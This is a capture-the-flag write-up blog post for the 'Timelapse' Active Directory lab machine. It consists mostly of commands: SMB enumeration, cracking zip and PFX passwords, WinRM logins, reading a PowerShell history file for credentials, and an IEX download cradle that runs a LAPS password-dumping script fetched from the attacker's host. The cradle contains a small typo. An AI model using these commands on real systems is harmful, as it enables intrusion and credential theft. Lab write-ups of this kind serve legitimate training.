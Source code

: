 ```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_timelapse
title: "Timelapse"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina timelapse! Let's hack!

<!-- outline-end -->

## RECON
```bash
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## SMB ENUM
```bash
smbclient -L <IP> -N
crackmapexec smb <IP> --shares
smbmap -H <IP> -u 'null'
```

## SMB ENUM MACHINE
```bash
smbclient //<IP>/Shares -N
cd Dev
get <Archivo.zip>
```

## DECRYPT FILE PASSWORD
```bash
unzip <Archivo.zip>
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <Archivo.zip>
unzip <Archivo.zip>
```

## TRYING TO OPEN PFX FILE
```bash
openssl pkcs12 -in <Archivo.pfx> -nocerts -out priv-key.pem -nodes
```

## FINDING PFX FILE PASSWORD (PFX2JOHN)
```bash
python3 pfx2john.py <Archivo.pfx>
```

## FINDING PFX FILE PASSWORD (CRACKPKCS12)
```bash
apt install libssl-dev
git clone https://github.com/crackpkcs12/crackpkcs12
cd crackpkcs12
./configure
make
make install
crackpkcs12 -d /usr/share/wordlists/rockyou.txt <Archivo.pfx>
```

## OPENING PFX FILE
```bash
openssl pkcs12 -in <Archivo.pfx> -nocerts -out priv-key.pem -nodes
ls
openssl pkcs12 -in <Archivo.pfx> -nokeys -out certificate.pem
cat certificate.pem
```

## GRANTED ACCESS LEGACYY USER
```bash
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
whoami
```

## FLAG USER.TXT
```bash
cd ..
cd Desktop
cat user.txt
```

## AD ENUM LOCAL
```bash
net user
whoami /priv
net user legacyy
net user svc_deploy
type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## GRANTED ACCESS SVC_DEPLOY USER
```bash
crackmapexec smb <IP> -u 'svc_deploy' -p '<PASSWORD>'
evil-winrm -i <IP> -u 'svc_deploy' -p '<PASSWORD>' -S
whoami
```

## SHARING GET-LAPSPASSWORDS.PS1
```bash
# MÁQUINA ATACANTE
git clone https://github.com/kfosaaen/Get-LAPSPasswords
cd Get-LAPSPasswords
python3 -m http.server 80

# MÁQUINA VÍCTIMA
IEX(New.Object Net.WebClient).downloadString('http://<IP_ATACANTE>/Get-LAPSPasswords.ps1')
Get-LAPSPasswords
```

## GRANTED ACCESS ADMINISTRATOR USER
```bash
crackmapexec smb <IP> -u 'Administrator' -p '<PASSWORD>'
evil-winrm -i <IP> -u 'Administrator' -p '<PASSWORD>' -S
whoami
```

## FLAG ROOT.TXT
```bash
type C:\users\TRX\Desktop\root.txt
```
